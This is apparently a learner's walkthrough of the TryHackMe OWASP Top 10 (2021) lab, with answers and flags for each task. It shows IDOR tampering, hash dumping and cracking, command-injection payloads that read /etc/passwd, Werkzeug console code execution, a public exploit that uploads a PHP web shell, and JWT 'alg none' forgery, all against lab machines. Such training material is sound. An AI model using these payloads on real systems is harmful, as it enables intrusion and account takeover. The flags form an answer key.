






# Owasp top 10 (2021)

**Date**: 28, August, 2024  
**Author**: P.Hima Bindu  

---

[Click Here](https://tryhackme.com/r/room/owasptop102021) to go to the TryHackMe room.

---


Deploy the machine and go to [http://MACHINE_IP](http://MACHINE_IP) - Login with the username **noot** and the password **test1234**.


### **Task 4 :** Broken Access Control (IDOR Challenge)

- Look at other users' notes. What is the flag?
  - Try to change the 'note_id=1' parameter to something else. I tried 'note_id=2/3/4', At 'note_id=5' I get a hint displayed in the screen.
  - **Hint** - Do note_ids start from 1? Maybe go lower ;)
  - Then changed the 'note_id=0', Boom! I got the flag
  - **flag{fivefourthree}**


### **Task 8 :** Cryptographic Failures(Challenge)

connect to the web application at http://Machine_IP/.

##
- What is the name of the mentioned directory?

```bash
curl http://10.10.134.171:81/login.php
```

observe the page, you can find this :  Must remember to do something better with the database than store it in **/assets**...

- Ans - **/assets**
##

##
- Navigate to the directory you found in question one. What file stands out as being likely to contain sensitive data? (Navigate to - http://10.10.134.171:81/assets)


- Ans - **webapp.db**
##

##
- Use the supporting material to access the sensitive data. What is the password hash of the admin user?

```bash 
sqlite3 webapp.db
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.
sqlite> .tables
sessions  users   
sqlite> PRAGMA table_info(sessions)
   ...> ;
0|sessionID|TEXT|1||1
1|userID|TEXT|1||0
2|expiry|INT|1||0
sqlite> PRAGMA table_info(users);
0|userID|TEXT|1||1
1|username|TEXT|1||0
2|password|TEXT|1||0
3|admin|INT|1||0
sqlite> SELECT * FROM users;
4413096d9c933359b898b6202288a650|admin|6eea9b7ef19179a06954edd0f6c05ceb|1
23023b67a32488588db1e28579ced7ec|Bob|ad0234829205b9033196ba818f7a872b|1
4e8423b514eef575394ff78caed3254d|Alice|268b38ca7b84f44fa0a6cdc86e6301e0|0

```
- Ans - **6eea9b7ef19179a06954edd0f6c05ceb**
##

##
- What is the admin's plaintext password?
  - use the crackstation online tool for cracking the hash

  

  - Ans - **qwertyuiop**
##

##
- Log in as the admin. What is the flag?

  - username=admin, password=qwertyuiop

 

- Ans - **THM{Yzc2YjdkMjE5N2VjMzNhOTE3NjdiMjdl}**
##


### 3.1 Command Injection (Task 10)

navigate to http://Machine_IP:82/ and exploit the cowsay server

##
- What strange text file is in the website's root directory?

- $(ls) 

 

- Ans: **drpepper.txt**

##

##
- How many non-root/non-service/non-daemon users are there?

- $(cat /etc/passwd)

- Here in the passwd file, there are no non-root users/non-service/non-demon. So the answer is:
- Ans: **0**

##

##
- What user is this app running as?

- $(whoami)

 

- Ans: **apache**

##

##

- What is the user's shell set as?

- $(cat /etc/passwd)


- Ans: **/sbin/nologin**
##

##
- What version of Alpine Linux is running?

- $(cat /etc/alpine-release)


- Ans: **3.16.0**
##

### 4.Insecure Design (Task 11)

- Navigate to http://MACHINE_IP:85 and get into joseph's account. 

  - Try to reset joseph's password.
  - Try to answer the security question which validates the user's favirote color.. First TRY with VIBGEYOR(violet,indigo,blue,green,yellow,orange,red) 
  - At **green** it was true....
  - get the password and login to the account.


**Flag - THM{Not_3ven_c4tz_c0uld_sav3_U!}**

##

##

### 5.Security Misconfiguration (Task 12)

 - Navigate to http://MACHINE_IP:86/console to access the Werkzeug console.

  -  import os; print(os.popen("ls -l").read())

  - 

  - Modify the code to read the contents of the app.py file, which contains the application's source code. What is the value of the secret_flag variable in the source code?

  - 

  - **Flag -** **THM{Just_a_tiny_misconfiguration}**

##  


## 

### Vulnerable and Outdated Components - Lab (Task 15)

- Navigate to http://MACHINE_IP:84 where you'll find a vulnerable application. All the information you need to exploit it can be found online. 

  - search and download the exploit - i.e [47887.py]

  - Run the following command

```bash
python3 47887.py http://10.10.31.234:84 
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php
> Example command usage: http://10.10.31.234:84/bootstrap/img/8T1IdSEuVy.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}
```



- **Flag-** **THM{But_1ts_n0t_my_f4ult!}**

##


##


### Identification and Authentication Failures - Practical (Task 17)

- Navigate to http://MACHINE_IP:8088 

  - Try to  register " darren" instead, and you'll see that you are now logged in and can see the content present only in darren's account

  - What is the flag that you found in darren's account?

    

  - **Ans** **fe86079416a21a3c99937fea8874b667**

  - What is the flag that you found in arthur's account?

   

  - **Ans** **d9ac0f7db4fda460ac3edeb75d75e16e**


##


##


### Software Integrity Failures (Task 19)

- What is the SHA-256 hash of https://code.jquery.com/jquery-1.12.4.min.js?
  
  - **Ans** **sha256-ZosEbRLbNQzLpnKIkEdrPv7lOy9C27hHQ+Xp8a4MxAQ=**


##


##


###  Data Integrity Failures (Task 20)

  

- What is the name of the website's cookie containing a JWT token?

  - **Ans** - **jwt-session**

-  Get the session token, decode it and modify it as alg="none" & username = "admin", and then encode it.Place the modified token in the place



- What is the flag presented to the admin user?



  - **Ans** **THM{Dont_take_cookies_from_strangers}**

